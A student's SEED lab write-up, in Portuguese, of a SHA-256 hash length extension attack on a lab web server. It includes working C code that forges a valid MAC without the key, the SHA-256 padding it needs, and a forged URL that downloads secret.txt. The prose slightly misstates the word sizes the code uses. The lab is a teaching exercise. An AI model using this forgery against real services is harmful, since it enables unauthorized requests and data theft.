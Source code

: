 # Guião Semana #10 (Hash Length Extension)

## Tarefa 1

Começamos por escolher os parâmetros a utilizar:
- myname = MiguelNeri
- uid = 1002  ->  key = 983abe

E concatenamos a key com a mensagem a autenticar: 
**Key:R = 983abe:myname=MiguelNeri&uid=1002&lstcmd=1**

Calculamos assim o MAC com o seguinte comando:
```$ echo -n "983abe:myname=MiguelNeri&uid=1002&lstcmd=1" | sha256sum```

E obtemos:
```f4fecb2eafd9f3747364d74d20969ea502930654cd2bacb73b49edb0acaf0d2a  -```

Agora, com todos os parâmetros montamos o URL (***http://www.seedlab-hashlen.com/?myname=MiguelNeri&uid=1002&lstcmd=1&mac=f4fecb2eafd9f3747364d74d20969ea502930654cd2bacb73b49edb0acaf0d2a***) e podemos observar que o MAC é válido e como é que o sistema se comporta:
![MAC correto](Tarefa1.png)


Exemperimentamos também colocar um MAC incorreto e observamos que o sistema acusou o erro:
![MAC incorreto](notTarefa1.png)


## Tarefa 2

A nossa mensagem é **M = "983abe:myname=MiguelNeri&uid=1002&lstcmd=1"**. O seu tamanho é 42 bytes e por isso o padding tem 64 - 42 = 22 bytes, incluindo já os 8 bytes do length field. O tamanho de M em termos de bits é 42 * 8 = 336 = 0x150.

Construimos então o padding, começando por um byte \x80 e terminando com os bytes \x01\x50 (length field em Big-Endian), sendo que entre estes são adicionados \x00 até preencher o tamanho total de 22 bytes. Ficamos assim com:
```\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x50```

Para converter o padding para o formato URL bastou trocarmos \x por %, ficando assim com:
```%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%50```


## Tarefa 3

Começamos por construir o código length_ext.c como indicado no guião, alterando:
- Os parâmetros das chamadas à função htole (8 bits cada) para corresponder ao MAC (8*8=64 bits em Big-Endian) calculado na tarefa 1
- O "Extra message" para aquilo que queremos adicionar ao comando, ou seja, "download=secret.txt"

Ficamos assim com o seguinte código:
```
/* length_ext.c */
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(int argc, const char*argv[]){
    int i;
    unsigned char buffer[SHA256_DIGEST_LENGTH];
    SHA256_CTX c;SHA256_Init(&c);
    
    for(i=0; i<64; i++)
        SHA256_Update(&c, "*", 1);
    
    // MAC of the original message M (padded)
    c.h[0] = htole32(0xf4fecb2e);
    c.h[1] = htole32(0xafd9f374);
    c.h[2] = htole32(0x7364d74d);
    c.h[3] = htole32(0x20969ea5);
    c.h[4] = htole32(0x02930654);
    c.h[5] = htole32(0xcd2bacb7);
    c.h[6] = htole32(0x3b49edb0);
    c.h[7] = htole32(0xacaf0d2a);
    
    // Append additional message
    SHA256_Update(&c, "&download=secret.txt", 20);
    SHA256_Final(buffer, &c);
    
    for(i = 0; i < 32; i++) {
        printf("%02x", buffer[i]);
    }
    printf("\n");
    return 0;
}
```

Compilamos e corremos o programa utilizando os comandos:
```
$ gcc length_ext.c -o length_ext -lcrypto
$ ./length_ext
```

E obtivemos o novo MAC:
```3f92130ed37aa55f4c434b1fab984900344ca8535e279bc8880de85f38b4863d```


Assim, construimos o novo URL (no formato ```http://www.seedlab-hashlen.com/?myname=<name>&uid=<uid>&lstcmd=1<padding>&download=secret.txt&mac=<new-mac>```) e obtivemos:
http://www.seedlab-hashlen.com/?myname=MiguelNeri&uid=1002&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%50&download=secret.txt&mac=3f92130ed37aa55f4c434b1fab984900344ca8535e279bc8880de85f38b4863d

Inserindo este URL conseguimos ver que conseguimos criar efetivamente um MAC válido para um pedido, sem utilizar a chave secreta para calcular o hash do mesmo.
![Ataque Bem Sucedido](Tarefa3.png)

Fomos assim bem sucedidos na nossa tentativa do length extension attack que foi apresentado na aula teórica, o que permite que qualquer pedido autenticado seja estendido para uma autenticação válida, mesmo sem conhecer a chave secreta!